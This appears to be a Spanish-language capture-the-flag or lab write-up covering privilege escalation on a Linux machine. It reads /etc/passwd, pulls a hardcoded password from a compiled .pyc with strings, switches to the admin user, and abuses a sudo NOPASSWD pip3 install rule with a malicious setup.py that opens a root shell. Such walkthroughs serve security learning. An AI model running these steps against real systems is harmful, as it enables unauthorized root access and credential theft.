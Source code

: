 Revisando el contenido del archivo: **( /etc/passwd )** tenemos los siguientes usuarios:
```bash
dev:x:1000:1000::/home/dev:/bin/bash
admin:x:1001:1001::/home/admin:/bin/bash
```


**Hallazgos Clave:**
En esta ruta tenemos lo siguiente:
```bash
/opt/scripts/__pycache__
```

el cual tiene un archivo: **( secret.cpython-38.pyc )** el cual vemos que no es legible pero ejecutamos el siguiente comando:
```bash
strings secret.cpython-38.pyc
```

Resultado:
```bash
adminz
p@$$w0r8321z
Authenticating...)
print)
usernameZ
password
        secret.py
auth
<module>
```
### Explotacion de Privilegios

###### Usuario `[ dev ]`:
Intentaremos usar esta passowd para loguearnos con el usuario **admin**:
```bash
p@$$w0r8321
```

```bash
# Comando para escalar al usuario: ( admin )
su admin
```

###### Usuario `[ admin ]`:
listando los permisos del usuario **admin**:
```bash
sudo -l

User admin may run the following commands on 459b8caff642:
    (ALL) NOPASSWD: /usr/bin/pip3 install * # Tenemos una via potencial de migrar a root.
```

Explotando el binario **pip3**
```bash
# Comando para escalar al usuario: ( root )
TF=$(mktemp -d) # Creamos un directorio temporal
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py # Despues ejecutamos.
sudo -u root /usr/bin/pip3 install $TF # Por ultimo ejecutamos este comando.
```

---